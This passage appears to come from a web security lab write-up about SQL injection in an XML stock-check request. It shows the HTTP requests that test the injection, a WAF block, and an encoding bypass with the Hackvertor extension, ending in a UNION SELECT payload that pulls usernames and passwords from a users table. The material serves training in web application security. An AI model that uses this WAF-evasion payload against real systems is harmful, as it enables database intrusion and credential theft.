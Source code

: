 <?xml version="1.0" encoding="UTF-8"?>
  <stockCheck>
    <productId>1</productId>
    <storeId>1 </storeId>
  </stockCheck>
```

return

```
HTTP/1.1 200 OK
Content-Type: text/plain; charset=utf-8
Connection: close
Content-Length: 7

478 units
```

- Then check the math operation

```
POST /product/stock HTTP/1.1
...

<?xml version="1.0" encoding="UTF-8"?>
  <stockCheck>
    <productId>1</productId>
    <storeId>1+1 </storeId>
  </stockCheck>
```

return `512 units`

```
POST /product/stock HTTP/1.1
...

<?xml version="1.0" encoding="UTF-8"?>
  <stockCheck>
    <productId>1</productId>
    <storeId>1 UNION SELECT NULL </storeId>
  </stockCheck>
```

- WAF is blocked an `Attack detected`

- Install `Hackvertor` from BApp store
- Select the SQL phrase that is injected and right clicked > extensions > hackvector > encode > dec_entities
- Then send the request and error may not get

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>1</productId>
  <storeId>
    1
    <@dec_entities>UNION SELECT username || '~' || password FROM users<@/dec_entities>
  </storeId>
</stockCheck>
```

return

```
HTTP/1.1 200 OK
Content-Type: text/plain; charset=utf-8